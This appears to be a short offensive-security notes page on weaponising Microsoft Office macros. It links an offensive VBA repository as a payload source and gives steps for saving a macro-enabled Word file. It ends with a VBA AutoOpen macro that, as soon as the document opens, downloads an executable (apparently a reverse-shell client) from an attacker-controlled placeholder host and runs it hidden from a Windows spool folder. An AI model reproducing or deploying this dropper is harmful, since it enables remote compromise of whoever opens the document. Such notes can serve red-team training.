 # Microsoft Office Macros

{% embed url="https://github.com/S3cur3Th1sSh1t/OffensiveVBA" %}
Use for macro payload
{% endembed %}

1. Enable Developer Tools in the Ribbon Menu to gain access to macros
2. Name your Macro AutoOpen() if you are working with Word 2016+
3. Select the Current Document as the place to store the Macro
4. Don't use .docx as the file extension since it won't allow for embedded macros. Either use .doc or .docm
5. When using the 64 bit version of Microsoft Word, Declare VBA functions with "PtrSafe" to avoid compilation errors.

```VBScript
Private Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As Long, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function WinExec Lib "kernel32" ( _
    ByVal lpCmdLine As String, _
    ByVal uCmdShow As Long) As Long

Sub AutoOpen()
    URLDownloadToFileA 0, "http://<ip>/rcat.exe", "C:\Windows\system32\spool\drivers\color\rcat_10.8.0.123_443.exe", 0, 0
    WinExec "C:\Windows\system32\spool\drivers\color\rcat_<ip>_<port>.exe", SHOW_HIDE
End Sub
```
